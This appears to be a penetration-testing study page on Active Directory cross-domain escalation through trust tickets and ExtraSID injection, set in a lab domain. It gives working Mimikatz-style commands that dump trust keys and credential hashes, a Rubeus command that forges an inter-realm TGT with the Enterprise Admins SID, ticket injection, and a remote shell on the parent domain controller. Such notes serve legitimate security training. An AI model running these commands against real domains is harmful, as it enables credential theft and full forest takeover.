```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Domain

In Active Directory environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

## Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key—functionally similar to a machine account password—is the NTLM hash of the trust object and rotates every 30 days.

<figure><img src="../../../.gitbook/assets/trust_keys.png" alt=""><figcaption></figcaption></figure>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.

{% tabs %}
{% tab title="1. Trust Key & Parent SID" %}
Extract the trust key as a DA:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"
```
{% endcode %}

Get the parent domain SID:

```powershell
Get-DomainSID -Domain moneycorp.local
```
{% endtab %}

{% tab title="2.  Cross-Realm TGT" %}
Forge the inter-realm TGT:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<rc4> /sid:<child-domain-SID> /sids:<parent-domain-SID-519 /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
Request and inject the TGS:

{% code overflow="wrap" %}
```powershell
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
```
{% endcode %}

Access the parent's domain resource:

```powershell
# Access the DC of the parent DC
winrs -r:mcorp-dc.moneycorp.local cmd
```
{% endtab %}
{% endtabs %}

## ExtraSID Injection

The **ExtraSID attack** builds upon this concept but operates entirely within the Kerberos framework. After compromising a domain and obtaining its KRBTGT hash, an attacker can forge a TGT and embed additional SIDs from trusted domains—particularly high-privilege group SIDs—into the `extra-sid` or `sIDHistory` fields of the ticket. Since domain controllers in the trusted domain accept these SIDs as valid during service ticket validation, the forged TGT grants elevated access beyond the attacker's original domain. This includes the ability to access Domain Controllers and critical systems across the forest, potentially leading to full forest compromise.

These attacks demonstrate the risk of overly permissive trust relationships and highlight the importance of securing inter-domain authentication paths, regularly auditing trust keys, and monitoring for suspicious Kerberos ticket activity.
